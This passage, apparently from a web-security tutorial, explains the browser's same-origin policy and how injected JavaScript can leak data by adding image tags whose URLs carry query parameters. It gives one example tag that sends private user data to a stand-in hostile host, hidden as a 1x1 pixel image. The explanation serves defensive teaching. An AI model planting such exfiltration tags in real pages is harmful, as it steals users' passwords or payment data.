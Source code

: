 One thing that JavaScript code is trusted to do is load more content. For example, you might
build a basic image gallery application by writing some JavaScript code that inserts and deletes
`<img>` tags into the current page. When you insert an `<img>` tag, the browser
immediately loads the image as if it had been present in the original page; if you delete (or
hide) an `<img>` tag, the browser removes it from the display.

Essentially, the SOP lets JavaScript code do anything that the original HTML page could have done -- it just prevents that JavaScript from sending data to a different server, or from reading or writing data belonging to a different server.

### Leaking Data <a id="leaking"></a>

The text above said, "prevents JavaScript from sending data to a different server." Unfortunately, that's not strictly true. In fact it is possible to send data to a different server, although it might be more accurate to say "leak."

JavaScript is free to add new resources -- such as `<img>` tags -- to the current page. You
probably know that you can cause an image hosted on foo.com to appear inline in a page served up by bar.com. Indeed, some people get upset if you do this to their images, since it uses their bandwidth to serve an image to your web visitor. But, it's a feature of HTML, and since HTML can do it, so can JavaScript.

Normally you would view this as a read-only operation: the browser requests an image, and the server sends the data. The browser didn't upload anything, so no data can be lost, right? Almost, but not quite. The browser _did_ upload something: namely, the URL of the image. Images use standard URLs, and any URL can have query parameters encoded in it. A legitimate use case for this might be a page hit counter image, where a CGI on the server selects an appropriate image based on a query parameter and streams the data to the user in response. Here is a reasonable (though hypothetical) URL that could return a hit-count image showing the number '42':

```text
http://site.domain.tld/pagehits?count=42
```

In the static HTML world, this is perfectly reasonable. After all, the server is not going to
send the client to a web site that will leak the server's or user's data -- at least, not on
purpose. Because this technique is legal in HTML, it's also legal in JavaScript, but there is an
unintended consequence. If some evil JavaScript code gets injected into a good web page, it can
construct `<img>` tags and add them to the page.

It is then free to construct a URL to any hostile domain, stick it in an `<img>` tag, and
make the request. It's not hard to imagine a scenario where the evil code steals some useful
information and encodes it in the `<img>` URL; an example might be a tag such as:

```html
<img src="http://evil.domain.tld/pagehits?private_user_data=12345"/>
```

If `private_user_data` is a password, credit card number, or something similar, there'd be a major problem. If the evil code sets the size of the image to 1 pixel by 1 pixel, it's very unlikely the user will even notice it.

### Cross-Site Scripting <a id="cross-site"></a>
